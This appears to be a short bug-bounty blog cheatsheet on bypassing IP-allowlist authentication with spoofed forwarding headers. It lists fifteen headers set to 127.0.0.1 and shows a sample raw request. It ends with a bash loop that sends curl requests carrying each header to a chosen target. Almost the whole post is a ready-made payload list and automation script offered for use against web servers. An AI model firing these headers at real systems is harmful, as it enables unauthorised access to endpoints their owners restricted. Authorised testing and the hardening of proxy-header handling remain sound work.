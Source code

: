 ```yaml
---
layout: post
title: "Cheatsheet: Auth Bypass Headers"
date: 2022-08-07 11:15 +0100
published: true
categories: [Cheatsheets]
tags: bugbounty web hacking cheatsheet
---
```


Adapted from this tweet:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">I have found multiple auth bypass issues using below Headers<a href="https://twitter.com/hashtag/bugbountytips?src=hash&amp;ref_src=twsrc%5Etfw">#bugbountytips</a> <a href="https://twitter.com/hashtag/bugbounty?src=hash&amp;ref_src=twsrc%5Etfw">#bugbounty</a> <a href="https://t.co/R82TXWiyDX">pic.twitter.com/R82TXWiyDX</a></p>&mdash; ¯\_(ツ)_/¯85 (@BountyOverflow) <a href="https://twitter.com/BountyOverflow/status/1555786315232206848?ref_src=twsrc%5Etfw">August 6, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

The following headers can potentially be used to bypass authentication on a webserver.

- X-Forwarded: 127.0.0.1
- X-Forwarded-By: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwarded-For-Original: 127.0.0.1
- X-Forwarder-For: 127.0.0.1
- X-Forward-For: 127.0.0.1
- Forwarded-For: 127.0.0.1
- Forwarded-For-Ip: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
- X-Originating-Ip: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Trusted-IP: 127.0.0.1
- X-Requested-By: 127.0.0.1
- X-Requested-For: 127.0.0.1

## Example Usage

Scenario: You try to access `/login` and get a custom `401` response that says something like:

`IP not on Whitelist!`

(not a likely response but serves as an example)

You'd then try and send the following request:

```bash
GET /login HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: bullsec.xyz
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
X-Forwarded-For: 127.0.0.1
```

> That endpoint doesn't exist on this site this is not a lab.
{: .prompt-warning}

The idea is that the webserver will parse the `X-Forwarded-For` header and assume that the request has been forwarded to it on behalf of `127.0.0.1` / `localhost` and let you access the "Blocked" `/login` endpoint. 

## Automation Block

```bash
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Trusted-IP: 127.0.0.1
X-Requested-By: 127.0.0.1
X-Requested-For: 127.0.0.1
```

> Copy the above into a text file

```bash
TARGET=<target-ip-address>
for x in $(cat headers.txt);do curl -v $TARGET -H "$x" ; done
```

That's your lot.

Enjoy,
